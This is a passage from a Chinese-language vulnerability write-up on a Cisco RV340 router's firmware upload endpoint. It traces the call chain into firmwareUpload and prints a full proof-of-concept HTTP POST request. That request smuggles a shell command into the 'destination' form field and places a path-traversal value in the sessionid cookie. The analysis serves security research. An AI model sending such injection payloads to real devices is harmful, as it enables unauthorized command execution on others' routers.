 ![](https://cdn.nlark.com/yuque/0/2022/png/574026/1659790625061-2327a2f9-6994-40db-8c59-debf7ba9f772.png)

完整的调用链为：

```c
sub_12684(HTTP_COOKIE_ENV, destination, option, file_type, v24, cert_name, cert_type, password);
--> v14 = firmwareUpload(destination, v24, option);
```

并且`destination`与`option`均可由用户控制：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1659791069981-5d1200cf-fc6b-4264-b2b5-3e33211a5b3c.png)

所以有：

```c
POST /upload HTTP/1.1
Host: 192.168.2.2
Connection: close
Content-Length: 751
sec-ch-ua: ".Not/A)Brand";v="99", "Google Chrome";v="103", "Chromium";v="103"
Accept: application/json, text/plain, */*
optional-header: header-value
sec-ch-ua-mobile: ?0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary0qV1TDWAdjvfv83n
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
sec-ch-ua-platform: "Linux"
Origin: https://192.168.2.2
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://192.168.2.2/index.html
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: selected_language=English; session_timeout=false; sessionid=../../../etc/passwd; sessionid=cyberangelcybera; user=cisco; blinking=1; config-modified=1; disable-startup=0; redirect-admin=0; group=admin; attributes=RW; ru=0; bootfail=0; model_info=RV340; fwver=; current-page=Admin_File_Management

------WebKitFormBoundary0qV1TDWAdjvfv83n
Content-Disposition: form-data; name="sessionid"

EU6DJKEIWO
------WebKitFormBoundary0qV1TDWAdjvfv83n
Content-Disposition: form-data; name="pathparam"

Firmware
------WebKitFormBoundary0qV1TDWAdjvfv83n
Content-Disposition: form-data; name="fileparam"

file001
------WebKitFormBoundary0qV1TDWAdjvfv83n
Content-Disposition: form-data; name="file"; filename="cyberangel.img"
Content-Type: application/x-raw-disk-image

cyberangel

------WebKitFormBoundary0qV1TDWAdjvfv83n
Content-Disposition: form-data; name="destination"

test_padding';ls;'
------WebKitFormBoundary0qV1TDWAdjvfv83n
Content-Disposition: form-data; name="option"

test_padding
```